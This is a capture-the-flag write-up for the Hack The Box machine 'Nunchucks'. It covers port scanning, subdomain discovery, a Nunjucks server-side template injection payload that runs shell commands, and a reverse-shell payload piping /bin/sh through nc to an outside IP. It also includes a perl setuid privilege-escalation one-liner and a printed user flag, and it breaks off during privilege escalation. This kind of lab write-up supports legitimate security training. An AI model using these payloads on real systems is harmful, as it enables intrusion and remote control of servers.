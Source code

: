 # Nunchucks 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/07260abf-8e6f-49eb-86fa-aefb6913930f)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ nmap -p- -sVC 10.10.11.122 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 03:41 PDT
Nmap scan report for 10.10.11.122
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c146dbb7459c3782e48f511d85b4721 (RSA)
|   256 a2f42c427465a37c26dd497223827271 (ECDSA)
|_  256 e18d44e7216d7c132fea3b8358aa02b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.76 seconds
```

1. Based from the nmap results, the machine runs a web applicatoin and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0e52b16f-9ae9-402b-8691-25f5011ffc30)


2. Trying every feature, resulting to nothing interesting. Even when tried to register account, they said it's closed already.
3. Running **dirbuster** found nothing interesting again.
4. But checking the subdomain, by running **gobuster**, found one domain that should be our interest --> `store.nunchucks.htb`.

#### NOTES:
```
Since nunchuck is https --> hence need to add -k

gobuster vhost -u host -w wordlists -k
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3bf45dc4-6fcb-44db-b099-ca71aaf0a13d)


5. Long story short found the vuln at the **Notify Me** textbox --> SSTI.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6408bf16-245e-448e-8c0f-6418f281c85e)


6. The vuln is SSTI as you can see the webserver execute the regex operation.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/22c82c7c-0e2e-4059-b1aa-58148a6c2447)


7. Great! Seems this is our foothold.
8. Anyway, after ran another ssti for flask, it shows nothing.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/16c5bb63-e8f4-4945-a106-1824e140aabb)


9. Not took me long to realized that the template engine used probably is **Nunjucks**. It's easy to guess based from the chall title and programming language used in this webapp.

> WAPPALYZER RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63734eda-2187-4acd-8dfc-d3889acce18b)


10. Did a little outsource about **Nunjucks Template Engine** exploit.

```
http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3e2f4c37-6109-4a83-bada-54e895ef8553)


11. But we need to revised a little bit.

> REVISED

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gmail.com
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9203ea2-0ebb-48f5-ae52-516ac4c9335d)


12. Let's spawn reverse shell with our template payload. Here's the full payload:

> PAYLOAD

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.20 1337 >/tmp/f')\")()}}@gmail.com
```

#### NOTE:

```
Use the previous request we sent to repeater then change the JSON email parameter value, it won't work if we tried to catch the request from 0 again.
```

> RESULT - GOT RCEEEEE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab0062ae-ff95-4cd2-a6a5-a4b52f5232ee)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/987824cc-b833-48f5-9811-353167867a9b)


## USER FLAG

```
341e52e2c4724a2da3b7af04a076458b
```

13. Actually it took me a while to get the root flag, until I realized the capabilities for perl is vulnerable here.

> To check cap --> run --> getcap -r /

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4661780-cafc-4725-85f5-46c9dae72057)


14. To do privesc we can use this --> `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`.
15. Anyway dunno why it can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/845ae0e5-da06-40b3-b928-468cf63c4d40)


16. Even to get the root flag still can't.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab4e90d8-637b-4db4-afb7-816f8dbe28a8)


17. Interesting, this kind of thing shall related to **Apparmor**. It's primary purpose is to protect the system and its resources by enforcing fine-grained access control policies on the actions that specific applications or processes can perform.
18. We can prove that interpretation by run --> `cat /etc/apparmor.d/usr.bin.perl`.
19. Noticed there's a .pl file inside /opt/.

> backup.pl

```
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

20. What's interesting here is, as user we can execute this backup.pl file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ecace07c-9ac8-4a6c-9ccd-af99c3922aa5)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9fd5323-7289-4d85-9a56-4693eb262e2a)


21. Amazing this should allows us to do privesc.
22. But we can't overwrite the backup.pl file. Stuck in a rabbit hole once again.
23. Until I did a research about --> **Apparmor perl bugs**.


